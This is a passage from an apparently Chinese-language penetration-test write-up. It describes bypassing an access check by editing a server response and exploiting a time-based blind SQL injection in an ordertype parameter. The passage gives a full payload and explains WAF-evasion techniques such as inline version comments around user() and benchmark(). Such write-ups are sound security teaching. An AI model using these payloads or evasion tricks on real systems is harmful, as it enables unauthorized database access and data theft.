   
  
达到了一个时间盲注的结果。  
## 第二处SQL注入  
  
这个SQL注入有非常严格的过滤，基本上常见的函数和常见的绕过函数都被过滤的干干净净了。  
  
首先要进行一个权限绕过：  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaaiasiaiblT6vSkibdialoLHUAgsP9ydDg2uDIeEI9rUDIiabgD6hegSeftDyA/640?wx_fmt=png&from=appmsg "")  
  
有时候直接修改返回包会有意想不到的结果，直接把返回包的false改为true  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaatNqiaYrvngywmgY2BLS7tDCBRED1vAUlrYRVPWAmicWiabR7xkibcPf2Uw/640?wx_fmt=png&from=appmsg "")  
  
进来之后，也是一个查询的地方去抓包  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaa8GpBBia5T19viaxlaiavndWTnmGia3lAGDzibsjPO1x9C6o535HmribctMTQ/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaaO4TrJEic1dZia1ZGkut4fsicxYgFMDlFFjVjMUm3A2jtegIjBhvhSuSlQ/640?wx_fmt=png&from=appmsg "")  
  
注入点是ordertype，一个单引号报错，两个单引号正常  
  
但是过滤非常非常严格，常见的几乎没有能用的东西,发现还是时间盲注好用，可以使用benchmark(),话不多说直接上payload，分析一波：  
  

```
orderType=1%20or%20Y(point(56.7,53.34))%20or%20(select/**/0/**/from/**/(select/**/if((ascii(right(left(user/*!55555*/(),1),1))!=1),(select/*!55555555555555555*/benchmark(511111111,1)),1))x)
```

  
  
首先是
```
1 or Y(point(56.7,53.34))
```

  
 这是使用了mysql的Y()函数去获得了Y的坐标，其实就类似于一个恒真的表达式，起到了一些绕过的作用。  
  
/**/ 绕过了空格的过滤  
  
/*!55555*/ 是mysql的内联注释  
  
left(right())的搭配使用可以绕过一些waf，提高复杂度，防止被识别到  
  
数字55555是一个任意大的版本号，当MySQL服务器版本 ≥ 指定版本号时，执行注释中的代码，由于55555不可能达到，实际上总是执行，所以通过这种方式可以绕过user()的识别。  
  
后面的
```
select/\*!55555555555555555\*/benchmark(511111111,1)
```

  
是一个原理，系统监测了select benchmark()，会被拦截，但是使用内联注释之后，就可以绕过识别，从而达到执行语句的结果。  
  
这里依旧是使用了子查询语句，我们分析代码：
```
1%20or%20Y(point(56.7,53.34))%20or%20(select/**/0/**/from/**/(select/**/if((ascii(right(left(user/*!55555*/(),1),1))!=1),(select/*!55555555555555555*/benchmark(511111111,1)),1))x)
```
